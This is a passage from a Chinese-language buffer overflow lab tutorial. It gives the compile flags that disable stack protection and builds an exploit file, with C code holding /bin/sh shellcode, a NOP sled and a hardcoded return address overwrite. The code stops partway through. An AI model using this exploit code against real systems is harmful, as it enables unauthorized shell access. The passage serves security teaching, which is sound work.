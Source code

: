    `gcc -g -fno-stack-protector -z execstack -o stack stack.c`

   参考：[GDB实用插件(peda, gef, gdbinit)全解]https://blog.csdn.net/gatieme/article/details/63254211

   ![image-20200512225123058](缓冲区溢出攻击.assets/image-20200512225123058.png)

<br>

### 生成badfile文件

这个badfile文件要求

* 不能包含'\0' ,否者复制的时候，遇到'\0'结束。
* 覆盖返回地址内容，跳转后，可以到达恶意代码。

```c
/**
 * 用来生成包含恶意代码的文件
*/

#include <stdio.h>
#include <string.h>
#include <stdlib.h>

/*shellcode暂时不关心，汇编和二进制的转换*/
char shellcode[]=
    "\x31\xc0"   /*xorl %eax,%eax*/
    "\x50"       /*pushl %eax*/
    "\x68""//sh" /*pushl $0x68732f2f  这是ASCII值*/
    "\x68""/bin" /*pushl $0x6e69622f*/
    "\x89\xe3"   /*movl %esp,%ebx*/
    "\x50"       /*pushl %eax*/
    "\x53"       /*pushl %ebx*/
    "\x89\xe1"   /*movl %esp,%ecx*/
    "\x99"       /*cdp*/
    "\xb0\x0b"   /*movb $0x0b,%al*/
    "\xcd\x80"   /*int $0x80*/
;

void main(){
     /*因为stack.c中一次最多读取300,我这里希望有更多的nop指令，增加命中概率*/
    char buffer[300];

    FILE *badfile;

    /*x86 CPU上的NOP指令实质上是XCHG EAX, EAX（操作码同为0x90）--无任何作用的指令。*/
    memset(&buffer,0x90,sizeof(buffer));

    /*原来的返回地址被nop覆盖，这里我们让它在本地，如果没有成功，增大它的值
     *因为书上说，调试的时候，会在栈的前面压入一些内容，而运行的时候没有
     *导致栈相对运行的时候，较深。
     */
    *((long *)(buffer+112)) = 0xbfffea98 + 0x80;
```